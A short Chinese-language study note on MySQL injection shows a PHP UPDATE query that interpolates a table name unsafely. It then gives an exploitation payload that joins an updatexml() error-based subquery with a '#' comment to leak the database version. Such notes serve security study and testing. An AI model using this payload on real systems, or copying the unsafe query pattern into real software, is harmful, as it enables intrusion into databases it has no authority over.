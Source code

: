 ## Mysql突破换行符限制

```php
<?php
    $sql = "UPDATE `{$table}`
		   SET `username` = 'admin'
		   WHERE id = 1";
	mysqli_query($link, $sql);
?>
```

### 基础

#### 注释归纳

![image-20220805164710020](Bypass_mysql/image-20220805164710020.png)

其中关于PDO, 他是PHP访问数据库的接口

> PHP 数据对象 （PDO） 扩展为PHP访问数据库定义了一个轻量级的一致接口。
>
> PDO 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。
>
> PDO随PHP5.1发行，在PHP5.0的PECL扩展中也可以使用，无法运行于之前的PHP版本。

#### UPDATE table中的table Syntax

可以是表名，或者JION动态引入的多个表

> https://goo.gl/lvIf7E

### 利用

#### JOIN利用

```sql
UPDATE `user` JOIN (SELECT updatexml(0,concat(0xa,version()),0))a#`
SET username='admin'
WHERE id=1;
```

